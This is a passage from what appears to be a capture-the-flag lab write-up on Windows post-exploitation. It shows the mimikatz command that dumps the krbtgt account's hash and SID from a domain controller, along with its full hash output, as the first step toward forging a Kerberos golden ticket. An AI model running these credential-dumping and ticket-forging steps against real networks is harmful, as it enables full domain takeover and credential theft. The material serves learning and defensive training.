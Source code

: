 ![Desktop View](/assets/img/thm/windows/windows-post-exploitation-basics/dumping-hashes-answers.png)

___

### Golden Ticket 

We will first dump the hash and sid of the **krbtgt** user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

#### Dump hash and sid of krbtgt

- `lsadump::lsa /inject /name:krbtgt` &rarr; dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket:

```cmd
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
                                                              
 * Primary                                                    
    NTLM : 5508500012cc005cf7082a9a89ebdfdf 
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea 
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27 
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
```